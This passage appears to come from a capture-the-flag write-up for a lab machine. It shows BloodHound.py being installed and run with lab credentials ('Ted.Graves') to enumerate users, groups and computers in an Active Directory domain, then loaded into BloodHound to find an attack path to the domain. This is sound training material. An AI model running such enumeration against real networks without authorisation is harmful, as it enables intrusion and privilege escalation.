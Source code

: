 **ingesting AD**

[BloodHound.py](https://github.com/fox-it/BloodHound.py) is a Python based ingestor for BloodHound which reads data from Active Directory and create a database which can be read from BloodHound.
```bash
pip install bloodhound
```

Running 
```bash
❯ bloodhound-python -ns 10.10.10.248 -d intelligence.htb -u 'Ted.Graves' -p 'Mr.Teddy' -c all
INFO: Found AD domain: intelligence.htb
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 42 users
INFO: Found 54 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: svc_int.intelligence.htb
INFO: Querying computer: dc.intelligence.htb
INFO: Skipping enumeration for svc_int.intelligence.htb since it could not be resolved.
INFO: Done in 01M 10S
```

Start BloodHound and load all json file created by bloodhound-python ingestor

And here is the sortest path to the DOMAIN.
